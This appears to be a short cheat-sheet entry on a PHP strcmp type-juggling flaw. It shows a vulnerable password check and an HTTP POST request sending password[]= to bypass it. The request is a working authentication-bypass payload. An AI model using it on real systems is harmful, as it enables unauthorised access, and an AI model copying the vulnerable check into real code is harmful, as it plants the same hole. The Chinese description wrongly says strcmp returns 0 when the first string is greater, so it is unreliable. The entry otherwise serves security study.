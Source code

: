 # PHP Quirks

## strcmp

根据PHP手册strcmp函数返回以下值：
如果str1小于str2，则返回<0;如果str1大于str2，则返回0;如果相等则返回0。

```php
<?php
    if(isset($_POST['password']))
    {   $password = $_POST['password'];
        if(strcmp($password, $actual_password)==0)
        {
            echo "YOU WON!";
        }
    }
?>
```

However, it is possible to manipulate the result of the strcmp function execution:

*Input as an Array*

Request:
```
POST / HTTP/1.1
Host: reverse-shell.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

password[]=
```

```
strcmp($secret, $_POST['password']) returns 0
```
